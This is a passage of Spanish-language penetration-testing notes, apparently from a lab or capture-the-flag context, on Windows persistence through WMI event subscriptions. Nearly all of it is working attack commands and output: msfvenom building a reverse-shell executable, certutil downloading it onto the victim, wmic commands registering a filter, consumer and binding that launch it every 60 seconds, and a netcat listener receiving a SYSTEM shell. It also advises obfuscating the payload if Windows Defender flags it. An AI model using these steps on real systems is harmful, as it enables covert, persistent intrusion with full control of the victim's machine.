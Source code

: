 ```
	ssp :	
	credman :
```
### Windows Persistence with WMI Events

Además de con `eventos Wmi` se podría hacer `persistencia` con G`flags (recibimos una shell cuando se cierra un programa)` o con el `Debugger (recibimos una shell cuando el usuario abre un programa)`. Si usamos `metasploit`, podríamos crear una persistencia mediante la cual cada vez se `inicie` el `equipo` nos `mande` una `consola` a nuestro equipo. El primero paso para crear una `persistencia` eventos `Wmi` es crear un `binario` con `msfvenom` en nuestro equipo, si de alguna forma el `Windows Defender` identificara el `binario` como `malicioso` deberíamos `ofuscarlo`

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.23 LPORT=443 -f exe > persistence.exe
```

Nos creamos un `servidor http` con `python` en el `mismo directorio` que el `.exe`

```
# python -m http.server 80
```

Desde la máquina víctima nos `descargamos` el `archivo` 

```
C:\Windows\Temp> certutil.exe -urlcache -split -f http://10.10.16.23/persistence.exe
```

Una vez dentro de la máquina `ejecutamos` estos `comandos`

```
C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="shell", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="shell", ExecutablePath="C:\Windows\Temp\persistence.exe",CommandLineTemplate="C:\Windows\Temp\persistence.exe"
Instance creation successful.

C:\Windows\Temp> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE FIlter="__EventFilter.Name="shell"", Consumer="CommandLineEventConsumer.Name="shell"" 
Instance creation successful.
```

Nos ponemos en `escucha` y pasados `60 segundos` obtenemos la `shell`

```
# nc -nlvp 443     
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.183.78] 49500
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

